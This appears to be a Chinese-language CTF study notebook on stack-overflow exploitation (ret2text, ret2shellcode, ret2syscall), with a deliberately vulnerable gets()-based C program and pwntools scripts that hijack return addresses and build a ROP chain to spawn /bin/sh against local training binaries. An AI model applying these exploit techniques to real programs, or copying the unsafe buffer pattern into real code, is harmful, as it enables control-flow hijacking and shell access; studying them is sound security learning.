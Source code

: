 # PWN

计划是先跟着ctf-wiki走，期间也做做攻防世界的初始题。

## 栈溢出

​       栈溢出指的是程序向栈中某个变量中写入的字节数超过了这个变量本身所申请的字节数，因而导致与其相邻的栈中的变量的值被改变。这种问题是一种特定的缓冲区溢出漏洞，类似的还有堆溢出，bss 段溢出等溢出方式。栈溢出漏洞轻则可以使程序崩溃，重则可以使攻击者控制程序执行流程。此外，我们也不难发现，发生栈溢出的基本前提是：

- 程序必须向栈上写入数据。

- 写入的数据大小没有被良好地控制。

  利用关键点：**寻找危险函数**、**确认填充长度**

### 基本ROP

#### 栈溢出example

```C
#include <stdio.h>
#include <string.h>

void success(void)
{
    puts("You Hava already controlled it.");
}

void vulnerable(void)
{
    char s[12];

    gets(s);
    puts(s);

    return;
}

int main(int argc, char **argv)
{
    vulnerable();
    return 0;
}
```

可以看到虽然定义了success函数，但是并没有真正使用。

```
gcc -m32 -fno-stack-protector stack_example.c -o stack_example 
```

因为IDA的版权原因，下面用的是ghidra。

success函数位置，即后面要覆盖ret的位置

![image-20240521102551637](./pwn.assets/image-20240521102551637.png)

查看gets的参数到ebp的距离为0x14，填充字符长度为0x14 + 0x4

![image-20240521102347152](./pwn.assets/image-20240521102347152.png)

```python
##coding=utf8
from pwn import *
## 构造与程序交互的对象
sh = process('./stack_example')
success_addr = 0x080491b6
## 构造payload
payload = b'a' * 0x14 + b'bbbb' + p32(success_addr)
print(p32(success_addr))
## 向程序发送字符串
sh.sendline(payload)
## 将代码交互转换为手工交互
sh.interactive()
```

![image-20240521145036717](./pwn.assets/image-20240521145036717.png)



#### ret2text

ret2text 即控制程序执行程序本身已有的的代码 (即， `.text` 段中的代码) 。

main函数中的gets是危险函数

![image-20240521103733098](./pwn.assets/image-20240521103733098.png)

未调用的secure函数中存在system(/bin/sh)，ret覆盖地址为0x0804863a

![image-20240521103818772](./pwn.assets/image-20240521103818772.png)

gets的参数这个只有相对于esp的位置，通过gef调试确认此时的ebp地址

![image-20240521104111944](./pwn.assets/image-20240521104111944.png)

```
gdb ./ret2text
# 在gets函数处下断点
b *0x080486ae
r
```

![image-20240521104340983](./pwn.assets/image-20240521104340983.png)

填充长度=ebp - esp - 0x16 + 0x4 = 0x70

```python
##coding=utf8
from pwn import *
## 构造与程序交互的对象
sh = process('./ret2text')
success_addr = 0x804863a
## 构造payload
payload = b'a' * 0x6c + b'bbbb' + p32(success_addr)
print(p32(success_addr))
## 向程序发送字符串
sh.sendline(payload)
## 将代码交互转换为手工交互
sh.interactive()
```

![image-20240521145013095](./pwn.assets/image-20240521145013095.png)



#### ret2shellcode

ret2shellcode，即控制程序执行 shellcode 代码。shellcode 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 shell。**通常情况下，shellcode 需要我们自行编写，即此时我们需要自行向内存中填充一些可执行的代码**。

![image-20240521145001123](./pwn.assets/image-20240521145001123.png)

同样的危险函数gets，不过下面copy了100个字符到buf2，可以作为shellcode写入的位置。整个操作流程应该是将shellcode写入buf2处，再通过gets函数将ret地址覆盖到buf2，获取程序控制权。

![image-20240521105543367](./pwn.assets/image-20240521105543367.png)

查看bss段（不知道怎么根据变量查看所属段）发现buf属于bss段，bss段起止位置在0x804a040-0x804a0e3

![image-20240521110940122](./pwn.assets/image-20240521110940122.png)

通过gdb vmmap查看bss段的可执行情况，发现可读可写不可执行，应该就是ctfwiki中提到的内核版本原因。

![image-20240521111338170](./pwn.assets/image-20240521111338170.png)

gets处下断点计算填充长度。

![image-20240521112424042](./pwn.assets/image-20240521112424042.png)

在strncpy处下断点，说实话没看出来到底是哪个参数被用给了buf当地址，看了一圈只有0x804a080在bss段内，就它了。

![image-20240521113202735](./pwn.assets/image-20240521113202735.png)

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080

# 计算可得填充字符数位112
sh.sendline(shellcode.ljust(112, b'A') + p32(buf2_addr))
sh.interactive()
```

无可执行权限，执行失败。



#### ret2syscall

ret2syscall，即控制程序执行系统调用，获取 shell。

`checksec rop`

![image-20240521144939951](./pwn.assets/image-20240521144939951.png)

```
NX即No-eXecute（不可执行）的意思，NX（DEP）的基本原理是将数据所在内存页标识为不可执行，当程序溢出成功转入shellcode时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不是去执行恶意指令。
```

![在这里插入图片描述](./pwn.assets/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NjcxMTMxOA==,size_16,color_FFFFFF,t_70.png)

![image-20240521133247953](./pwn.assets/image-20240521133247953.png)

不存在后门函数，无法写shellcode，通过修改寄存器的值进行系统调用。通过ROPgadget工具寻找可用的片段。

```
pip install capstone
https://github.com/JonathanSalwan/ROPgadget
报错：pkg_resources.ResolutionError: Script 'scripts/ROPgadget' not found in metadata at '/usr/local/lib/python3.8/dist-packages/ROPGadget-7.4.dist-info'
解决：cp -r scripts/ /usr/local/lib/python3.8/dist-packages/ROPGadget-7.4.dist-info
```

![image-20240521144642261](./pwn.assets/image-20240521144642261.png)

先压地址再压参数。

![image-20240521145256497](./pwn.assets/image-20240521145256497.png)

![image-20240521145418148](./pwn.assets/image-20240521145418148.png)

![image-20240521145545614](./pwn.assets/image-20240521145545614.png)

![image-20240521150442186](./pwn.assets/image-20240521150442186.png)

```python
#!/usr/bin/env python
from pwn import *

sh = process('./rop')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(
    ['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
sh.sendline(payload)
sh.interactive()
```

